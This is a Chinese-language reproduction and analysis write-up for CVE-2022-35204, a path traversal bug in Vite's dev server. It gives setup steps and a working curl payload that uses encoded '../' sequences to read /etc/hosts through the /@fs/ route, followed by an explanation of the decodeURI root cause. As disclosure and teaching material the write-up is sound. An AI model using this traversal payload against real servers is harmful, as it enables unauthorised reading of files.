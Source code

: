```yaml
---
title: CVE-2022-35204
---
```


# CVE-2022-35204


<Metadata author="swwind" time="2023-6-12" />

Vite 是 Vite 开源的一种新型的前端构建工具。

Vite v2.9.13 之前版本存在安全漏洞，该漏洞源于允许攻击者通过精心设计的 URL 对受害者的服务执行目录遍历。

## 漏洞详情信息表

|  漏洞名称  |   Vite 路径遍历漏洞    |
| :--------: | :--------------------: |
| CNNVD 编号 |   CNNVD-202208-3372    |
|  CVE 编号  | [CVE-2022-35204][nist] |
|    厂商    |          Vite          |
|  危害等级  |          低危          |
|  漏洞类型  |        路径遍历        |

## 系统和软件环境配置详情信息表

- node v20.2.0
- yarn v1.22.19
- vite v2.9.12

## 漏洞还原详细步骤

1. 使用 `mkdir CVE-2022-35204` 指令新建目录用于测试。
2. 使用 `yarn init` 创建新的 nodejs 项目。
3. 使用 `yarn add vite@2.9.12` 安装带有缺陷的 vite 版本。

## 漏洞测试或验证详细步骤

### 编写代码

创建 `index.html`，简单写入任意 HTML 页面，如下样例。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>Vite</title>
  </head>
  <body>
    There is nothing to observe
  </body>
</html>
```

### 运行程序

使用 `yarn vite dev` 开启 vite 开发模式服务器，可以看到程序默认监听了 `localhost:3000` 地址端口。

![](/assets/exploits/figure2/fig1.png)

访问 `http://localhost:3000` 可以看到我们在 `index.html` 中编写的内容。

![](/assets/exploits/figure2/fig2.png)

### 验证漏洞

vite 默认启用的 `/@fs/` 路由用于访问任意本地文件，但是只限于项目仓库目录下的文件。

例如我们构造一个请求 URL 形如 `http://localhost:3000/@fs/home/swwind/tmp/cve/CVE-2022-35204/index.html`，这个 URL 指向的是我们方才创建的 `index.html`，并且在项目的目录下，因此可以正常访问。我们使用 curl 测试这个路径的访问情况。

```bash
curl http://localhost:3000/@fs/home/swwind/tmp/cve/CVE-2022-35204/index.html
```

程序输出如下

![](/assets/exploits/figure2/fig3.png)

我们尝试访问一个不在项目路径下的文件，例如 `/etc/hosts` 文件，可以看到 vite 拒绝了我们的请求。

```bash
curl http://localhost:3000/@fs/etc/hosts
```

![](/assets/exploits/figure2/fig4.png)

漏洞的关键在于，我们可以使用 `%2e%2e%2f`（经过 `encodeURIComponent` 之后的 `../`）来索引到父级目录，从而绕过 vite 的路径验证。

值得注意的是使用 curl 必须要带上 `--path-as-is` 参数，防止 curl 自己展开 `../`。

```curl
curl --path-as-is http://localhost:3000/@fs/home/swwind/tmp/cve/CVE-2022-35204/%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e/etc/hosts
```

![](/assets/exploits/figure2/fig5.png)

可以看到成功绕过了 vite 的路径检测，成功访问到了系统中的任意文件。

### 漏洞分析

漏洞出现的原因在于 vite 错误地使用了 `decodeURI` 函数来对输入的参数进行反序列化。

![](/assets/exploits/figure2/fig6.png)

`decodeURI` 函数在解码时会将大部分 ASCII 标点符号和预留字符保留不变，包括 `/`（斜杠）和 `%2f`（斜杠的编码形式）。

相比之下，`decodeURIComponent` 函数仅解码 URI 组件中的字符，而不是完整的 URI。它可以正确解码任何 ASCII 字符或 UTF-8 字符集，包括默认 URI 编码中使用的所有预留字符和其他特殊字符。因此，在处理普通的、标准的或非标准的 URI 时，`decodeURIComponent` 函数通常是更安全和可靠的选择。

在这个漏洞的情形下，当传入的参数是 `/home/swwind/tmp/cve/CVE-2022-35204/%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e/etc/hosts` 的时候，`decodeURI` 函数解析出来的结果会保留其中的所有 `%2f`，再经由下一步的 `path.resolve` 函数解析，最终结果是 `/home/swwind/tmp/cve/CVE-2022-35204/..%2f..%2f..%2f..%2f../etc/hosts`，由此非常轻松地就绕过了 vite 的允许目录检查。

相比之下，如果使用了安全的 `decodeURIComponent` 函数，那么第一步解析出来的结果就会是 `/home/swwind/tmp/cve/CVE-2022-35204/../../../../../etc/hosts`，经过第二步 `path.resolve` 解析之后的结果将会是 `/etc/hosts`，从而有效防止此类攻击。

[nist]: https://nvd.nist.gov/vuln/detail/CVE-2022-35204
